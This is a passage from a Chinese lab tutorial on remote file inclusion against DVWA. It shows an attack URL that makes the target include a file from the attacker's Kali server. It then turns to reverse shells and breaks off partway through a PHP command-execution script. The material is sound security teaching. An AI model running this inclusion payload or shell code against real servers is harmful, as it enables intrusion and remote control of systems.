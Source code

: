 找到我们刚刚看到的两个配置参数：

![modify-config](https://doc.shiyanlou.com/document-uid113508labid2426timestamp1482492605619.png/wm)

使用 `:wq` 保存我们的修改。

然后使用 `sudo /etc/init.d/apache2 restart` 命令重启一下，使得配置文件生效：

![restart-apache](https://doc.shiyanlou.com/document-uid113508labid2426timestamp1482492616139.png/wm)

此时我们再次尝试访问这个 URL，就可以正常访问了：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/phpinfo.txt
```

由此可以看出它能够正常的执行远在我服务器上的 phpinfo.txt 文件，这就是远程文件包含，并且我们可以看到配置，其中 allow_url_include 的设置是 On，说明就是在靶机中执行的，因为默认情况下在 php5 中该配置选项是 Off 的。

此处说明一下为什么取名是 phpinfo.txt 而不是 phpinfo.php，原因是 Kali 的环境支持 php，能够解析并执行 php，所以在 include 的时候，首先判断该文件的后缀是否为 .php，然后看本地能否解析、运行 php，若是这两个条件都符合就会在 Kali 中执行然后把结果返回给 include 它的程序，反之 include 的程序就会将 include 内容读取到本地，然后在本地执行。

也就是说若是取名为 phpinfo.php 的话，就会在 Kali 本地中执行这段小程序，然后将得到的结果返回给 dvwa，给我们呈现出来，这样做是没有意义，从两个角度来讲：

- 从开发的角度来说，include 文件是为了重用代码，不用把已经实现的功能写很多遍，调用其中的函数或者类什么的，但是若是在远程设备上执行了返回结果过来是没有办法调用上面的函数、类等等。
- 从渗透测试的角度来讲，是为了攻击你的服务器，使用该机器上的功能，查看敏感信息，在我自己的服务器上运行，返回我自己服务器上的信息给我干嘛呢？

所以此处我们将文件的后缀名修改成 .txt，这样就不会在本地执行了，而 include 过去之后，解析文本便不是靠后缀名，其中若是没有 `<?php ?>` 的标志认定只不是一个 php 文件，直接将内容打印在页面上，若是有 `<?php ?>` 的标志位便解析，然后运行。

## 7. 远程文件包含进阶

若还是只能这样查看信息的话，就不能说他的危害很大了。

上述的实验我们只是在上面简单的执行了一个小程序而已，我们若是放一个反弹 shell 呢？挂个木马？嘿嘿，就和我们正常的 ssh 登陆上去差不多了。

所谓的反弹 shell 就是 reverse shell，在机器上开启某个端口，用该端口向我们的设备发起请求，只要我们监听了该端口，并且该端口没有被防火墙所阻挡我们就可以连接上发起请求的设备，就像使用 ssh 登陆 shell 一样目标机器。

通过我们在 Kali 设备的 Apache 根目录下使用 `vim test.txt` 创建并编辑文件，该文件中有输入这样的一些内容：

```
<?php 

function which($pr) { 
$path = execute("which $pr"); 
return ($path ? $path : $pr); 
} 
function execute($cfe) { 
$res = ''; 
if ($cfe) { 
if(function_exists('exec')) { 
@exec($cfe,$res); 
$res = join("\n",$res); 
} elseif(function_exists('shell_exec')) { 
$res = @shell_exec($cfe); 
} elseif(function_exists('system')) { 
@ob_start(); 
@system($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(function_exists('passthru')) { 
@ob_start(); 
@passthru($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(@is_resource($f = @popen($cfe,"r"))) { 
$res = ''; 
```
